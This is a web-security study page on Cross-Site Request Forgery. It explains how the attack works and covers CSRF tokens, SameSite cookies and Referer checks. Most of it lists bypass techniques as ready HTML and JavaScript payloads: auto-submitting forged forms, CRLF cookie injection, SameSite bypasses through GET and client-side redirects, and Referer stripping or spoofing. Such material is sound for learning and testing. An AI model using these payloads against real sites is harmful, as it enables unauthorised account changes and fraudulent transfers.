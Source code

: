 ```yaml
---
title: "Cross-Site Request Forgery (CSRF)"
weight: 8
description: "Learn what CSRF attacks are, how they work with real examples, and how to defend against them using CSRF tokens, SameSite cookies, and referer validation."
---
```


# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web attack where a malicious site tricks a user into performing actions on another site where they're authenticated. For example, it could change a user's email or send money-without their consent.

---

## How CSRF Attacks Work

An attacker can trick a logged-in user into submitting unwanted requests.

### POST-Based Attack

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### GET-Based Attack

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

---

## CSRF Defenses

{{< details summary="CSRF Tokens" >}}

A CSRF token is a unique and unpredictable value generated by the server. It must be submitted with sensitive requests (like changing an email). This ensures the request comes from a legitimate user.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="example@normal-website.com">
  <input required type="hidden" name="csrf" value="unique-random-token">
  <button type="submit">Update Email</button>
</form>
```

{{< hint style=notes >}}
CSRF tokens should be tied to the user's session and checked on the server.
{{< /hint >}}

{{< /details >}}

{{< details summary="SameSite Cookies" >}}

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

- `Strict`: Only sent in same-site requests (most secure).
- `Lax`: Sent on same-site and top-level GET requests (default in most modern browsers).
- `None`: Sent in all requests but must be marked `Secure`.

{{< /details >}}

{{< details summary="Referer Header Validation" >}}

Some applications check the `Referer` header to verify that requests are coming from their own domain. This can help prevent CSRF attacks—but it's not foolproof.

{{< hint style=warning >}}
Don't rely solely on referer validation. Users or browsers may strip or modify this header.
{{< /hint >}}

{{< /details >}}

---

## CSRF Token Bypass Techniques

- Switch from `POST` to `GET`
- Remove the CSRF token parameter
- Use a predictable or fake token
- Use Burp Sequencer to analyze the quality of randomness of the token 
- Reuse a token from your own session (if the app doesn't check the token-user binding)
- There are two token: one in a cookie and one in hidden input (this can also have the same value)
  - Some apps do tie the CSRF token to a cookie, but not to the session cookie.
  - Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
  - ```sh
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  - Log in to the application with your account -> obtain a valid token and associated cookie.
  - Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

  ```html
  <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  ```

---

## Bypassing SameSite Protections

### Bypassing Lax Mode

- Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- GET method override (bypass lax)
  - Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  - ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```


### Bypassing Strict Mode

Use a client-side redirect:

```javascript
// On page: https://vulnerable-website.com/post/confirm?postId=10
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

Now trigger redirect to a sensitive endpoint:

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{{< hint style=notes >}}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{{< /hint >}}

---

## Bypassing Referer Validation

### Strip the Referer

Some apps validate the Referer header if present, but skip if omitted:

```html
<meta name="referrer" content="never">
```

This prevents the browser from sending the `Referer` header.

### Fake the Referer

Common tricks include using subdomains or path tricks:

```md
http://vulnerable-website.com.attacker.com/csrf
http://attacker.com/csrf?vulnerable-website.com
```

You need to add `Referrer-Policy` to `unsafe-url`:

```html
<meta name="referrer" content="unsafe-url" />
```

{{< hint style=tips >}}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

```html
<!-- http://attacker-website.com/ -->
<html>
  <meta name="referrer" content="unsafe-url"/>
  <body>
    <form action="https://vulnerable-website.com/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{{< /hint >}}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy \[[🔗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)] .
